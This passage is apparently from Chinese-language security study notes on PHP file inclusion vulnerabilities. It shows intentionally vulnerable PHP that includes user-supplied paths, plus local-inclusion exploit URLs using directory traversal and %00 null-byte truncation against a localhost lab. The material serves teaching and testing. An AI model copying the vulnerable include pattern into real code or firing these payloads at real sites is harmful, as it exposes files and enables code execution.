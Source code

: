 开发时，程序员希望代码更加灵活，**通常会将被包含的文件设置为变量**。进行动态调用，虽然提高了灵活性，但是安全性 则大大降低，这样会导致客户端可以调用一个恶意的文件，造成文件包含漏洞。

常见函数：

```php
require() //有错误信息警告退出
include() //错误信息继续执行
包含一次
require_once()
include_once()
```

示例代码如下：

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['local'])){
    include $_GET['local'].".txt"; //magic_quotes_gpc = Off php版本<5.3.4 %00截断 \. .
}elseif (isset($_GET['rce'])){
    //allow_url_fopen = On（是否允许打开远程文件）
    //allow_url_include = On（是否允许include/require远程文件
    include $_GET['rce']; //因为没有限制后缀 可以任意包含、
}
```

#### 本地包含

本地包含利用 可以上传恶意的脚本，进行本地引入加载，**有后缀限制需要判断是否能截断**。

截断条件：

##### 00%截断 

`magic_quotes_gpc = Off` `php版本<5.3` 

```http
http://127.0.0.1:8081/www.phpsec.com/page/include.php?local=../data/x.php%00
http://127.0.0.1:8081/www.phpsec.com/page/include.php?local=../data/x
http://127.0.0.1:8081/www.phpsec.com/page/include.php?local=../data/x.txt%00
```

<img src=".\图片\Snipaste_2023-04-09_04-04-37.png" alt="Snipaste_2023-04-09_04-04-37" style="zoom:80%;" />
